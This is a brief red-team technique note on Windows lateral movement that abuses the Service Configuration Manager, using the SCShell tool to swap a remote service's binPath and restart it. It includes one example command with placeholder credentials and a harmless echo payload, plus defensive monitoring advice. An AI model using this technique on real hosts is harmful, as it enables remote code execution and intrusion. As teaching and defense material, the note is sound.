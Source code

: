 # Lateral Movement Abusing Service Configuration Manager

It's possible to execute commands on a remote host by abusing service configuration manager by changing the service binpath to your malicious command and restarting the service so your payload gets executed - this is all automated by a nice tool [SCShell](https://github.com/Mr-Un1k0d3r/SCShell)

## Execution

Scshell expects the following arguments: target, service, payload, username, domain, password:

{% tabs %}
{% tab title="attacker@target" %}
```text
.\scshell.exe ws01 XblAuthManager "C:\windows\system32\cmd.exe /c echo 'lateral hello' > c:\temp\lat.txt" spotless offense 123456
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/scshell.gif)

## Considerations

From the defensive side, you may want to consider about monitoring services that change their binPaths "too often" as this may not be normal in your environment, especially if the binPath is "very" different \([Levenshtein](https://www.google.com/search?q=levenshtein+distance&oq=levensht&aqs=chrome.1.69i57j0l5.2647j0j7&sourceid=chrome&ie=UTF-8)\) to the previously known good value and if the service configuration is being changed over the network:

![](../../.gitbook/assets/image%20%28278%29.png)

## References

{% embed url="https://github.com/Mr-Un1k0d3r/SCShell" %}

